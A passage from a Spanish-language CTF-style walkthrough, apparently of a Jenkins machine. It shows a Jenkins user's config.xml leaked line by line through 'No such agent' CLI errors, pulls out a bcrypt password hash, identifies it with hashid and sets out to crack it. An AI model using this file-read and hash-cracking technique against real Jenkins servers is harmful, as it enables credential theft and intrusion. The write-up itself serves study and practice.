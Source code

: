 ```bash
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>: No such agent "          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>" exists.
  </properties>: No such agent "  </properties>" exists.
    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>: No such agent "    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>" exists.
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>: No such agent "    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>" exists.
    <hudson.security.HudsonPrivateSecurityRealm_-Details>: No such agent "    <hudson.security.HudsonPrivateSecurityRealm_-Details>" exists.
      <insensitiveSearch>true</insensitiveSearch>: No such agent "      <insensitiveSearch>true</insensitiveSearch>" exists.
          <properties class="hudson.model.View$PropertyList"/>: No such agent "          <properties class="hudson.model.View$PropertyList"/>" exists.
    <hudson.model.TimeZoneProperty>: No such agent "    <hudson.model.TimeZoneProperty>" exists.
        <hudson.model.AllView>: No such agent "        <hudson.model.AllView>" exists.
    </hudson.security.HudsonPrivateSecurityRealm_-Details>: No such agent "    </hudson.security.HudsonPrivateSecurityRealm_-Details>" exists.
      <providerId>default</providerId>: No such agent "      <providerId>default</providerId>" exists.
      </roles>: No such agent "      </roles>" exists.
    </jenkins.security.LastGrantedAuthoritiesProperty>: No such agent "    </jenkins.security.LastGrantedAuthoritiesProperty>" exists.
    <jenkins.model.experimentalflags.UserExperimentalFlagsProperty>: No such agent "    <jenkins.model.experimentalflags.UserExperimentalFlagsProperty>" exists.
    <hudson.model.PaneStatusProperties>: No such agent "    <hudson.model.PaneStatusProperties>" exists.
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
  <fullName>jennifer</fullName>: No such agent "  <fullName>jennifer</fullName>" exists.
      <seed>6841d11dc1de101d</seed>: No such agent "      <seed>6841d11dc1de101d</seed>" exists.
  <id>jennifer</id>: No such agent "  <id>jennifer</id>" exists.
  <version>10</version>: No such agent "  <version>10</version>" exists.
      <tokenStore>: No such agent "      <tokenStore>" exists.
          <filterExecutors>false</filterExecutors>: No such agent "          <filterExecutors>false</filterExecutors>" exists.
    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>: No such agent "    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>" exists.
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

Y sacamos esto $2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a. Vamos a intentar crackerarlo.

```bash
❯ hashid '$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a'
Analyzing '$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
